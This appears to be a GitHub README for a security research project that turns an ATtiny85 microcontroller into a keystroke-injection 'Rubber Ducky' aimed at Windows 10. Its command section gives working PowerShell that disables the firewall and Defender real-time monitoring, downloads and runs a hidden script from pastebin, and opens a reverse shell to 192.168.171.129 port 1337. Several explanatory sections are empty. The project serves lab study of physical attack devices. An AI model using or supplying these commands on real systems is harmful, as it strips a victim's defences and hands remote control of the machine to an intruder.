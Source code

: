 
# ATtiny85 USB "Rubber Ducky"
## Creating a rubber ducky from an inexpensive programmable microcontroller and deploy a payload on a patched Windows 10 system.
 A research project by: Nate Ward.

### Why this project?

Outside of computers and cybersecurity, I have several other hobbies that I find interesting. One of such interests is electronics prototyping and another is 3D printing. After some initial searching, I found a topic that would be both interesting and demonstratible marrying several of my hobbies and interests. After some Google searching for topics, I chose using a ATtiny85 microcontroller as a inexpensive "Rubber Ducky". After settling on this project, I had to find a payload for the "Rubber Ducky" to deploy. I found that opening a reverse shell would be an excellent use of this device. I wanted to try and make this as stealthy as possible and not require complicated dependancies. The initial version will be attempted using a pure Powershell reverse shell script from [Nikhil Mittal [1]](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html).

### Project Steps and Requirements.

After reading through a guide availible from the website inc0x0 [2], I was able to layout a general plan for this project and research.

1. Create a lab that will allow me to isolate and test in a controlled enviorment. For this I will be using VMWare Workstation 16 Player (availible at [VMWare.com](https://www.vmware.com/products/workstation-player.html)).
	- Will need at least one of each of the following; Windows 10/11 workstation, Linux workstation.
2. Obtain a ATtiny85 from an online retailer.
	- I will be using Amazon for this one, they are in stock and a 5 pack only costs ~ $15.
	- While I'm on Amazon, I picked up some USB 3.0 Male to Female (Type A) adapters. **More on item this later.**
3. Install the Arduino IDE on my personal comuter for compiling and uploading the "Rubber Ducky" code to the ATtiny85.
	- This is a free download availible from [Arduio.cc](https://www.arduino.cc).
4. Some form of screen capture software to record my steps and demostration.
	- For this I chose "OBS Studio", also a free download from their website at [OBSProject.com](https://obsproject.com/).
5. Some additonal research for a reverse shell script. Using Powershell or a scripting language.
	- I will be research a few different methods for completing this task, first I would like to try and complete this tack using a pure powershell script.
	- After further research and a proof of conecpt on the powershell version from above, I chose to research and develop a Python script.

### What is a ATtiny85?



### What is a Rubber Ducky?









1. Rubber Ducky Commands

Turn "OFF" firewall.
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;
```

Disable real-time virus monitoring.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true;
```

Change pastebin link to your script.
```powershell 	
powershell -windowstyle hidden -nop IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/TnfTv8rt');
```


Powershell reverse shell Script.
```powershell	
$sm=(New-Object Net.Sockets.TCPClient("192.168.171.129",1337)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
$sm.Write($st,0,$st.Length)}
```









# References & Cited Work.<a id="references"></a> 
[1] Week of Powershells. By: Nikhil Mittal, Written May 2015. @ http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
[2] Budget "USB Rubber Ducky" - Digispark ATtiny85. By: inc0x0, Written Obctober 2018. @ https://inc0x0.com/2018/10/budget-usb-rubber-ducky-digispark-attiny85/
[3] How to Create a Reverse Shell in Python. By: Abdou Rockikz, Updated August 2022. @ https://www.thepythoncode.com/article/create-reverse-shell-python
[4] Disable Defender Powershell with Code Examples. By Unknown (Folkstalk.com). @ https://www.folkstalk.com/2022/09/disable-defender-powershell-with-code-examples.html

5. Software and Links.
[A] Windows 10 Installation Media - https://www.microsoft.com/en-us/software-download/windows10https://www.microsoft.com/en-us/software-download/windows10